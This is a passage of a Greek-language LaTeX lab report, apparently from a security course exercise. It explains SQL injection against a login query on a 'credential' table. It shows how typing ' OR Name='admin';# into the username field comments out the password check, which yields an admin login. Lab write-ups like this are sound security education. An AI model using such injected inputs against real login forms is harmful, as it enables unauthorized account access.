 \noindent
Το query ειναι της μορφης 

\begin{center}
	\begin{lstlisting}	
SELECT * FROM credential 
WHERE Name ='\$Name' 
AND Password = '\$Pass';
	\end{lstlisting}	
\end{center}

\noindent
Αυτό που πληκτρολογούμε στα πεδία username και password αντικαθιστάτε στα \$Name και \$Pass.
Επόμενος με την παραπάνω εντολή το query που παράγετε είναι το παρακάτω.

\begin{center}
	\begin{lstlisting}	
SELECT * FROM credential 
WHERE Name ='' OR Name='admin';#' 
AND Password = '';
	\end{lstlisting}	
\end{center}

\noindent
Ο χαρακτήρας \# στην MySQL λειτουργεί ως έναρξη σχόλιου επομένως ότι βρίσκετε μετά από αυτόν
αγνοείτε από την MySQL. Συνεπώς το query που εκτελείτε τελικά στην βάση είναι αυτό.

\begin{center}
	\begin{lstlisting}	
SELECT * FROM credential 
WHERE Name ='' OR Name='admin';
	\end{lstlisting}	
\end{center}

\begin{center}
			\includegraphics[width=1\textwidth]{image/2.1.PNG}		
\end{center}

